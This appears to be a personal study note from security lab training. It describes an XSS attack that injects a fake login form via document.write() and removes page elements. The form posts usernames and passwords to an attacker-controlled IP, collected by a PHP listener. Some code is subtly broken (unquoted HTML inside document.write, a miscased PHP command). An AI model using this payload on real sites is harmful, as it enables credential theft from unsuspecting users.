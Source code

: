 
---
### Login Form Attack

##### 1. Constructing the Payload

> This is a type of [[Cross Site Scripting (XSS)]] attack.

This form would be injected into the discover XSS injection point.

```HTML
<form action=http://OUR-IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
> Place in the `action` tag our [[IP]] address so that on submission of the form, the credentials are sent to our machine.

We can inject this form into the vulnerable parameter using this javascript function `document.write()`, which writes the content directly into the HTML of the page.

```JavaScript
document.write(
	<form action=http://OUR-IP>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
	</form>
);
```

> This will add our login form to the page, but it will not remove other parts of the page that we might want to not appear. 
> To do that, use the `document.getElementById().remove()` function.

Therefore, the final payload: 

```JavaScript
document.write(
	<form action=http://10.10.15.189>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
	</form>
);
document.getElementById('to-remove').remove();
```

##### 2. Stealing the Credentials

Open a listener, etiher using [[netcat]], or a PHP server.

```bash
sudo PHP -s 0.0.0.0:80
```

---
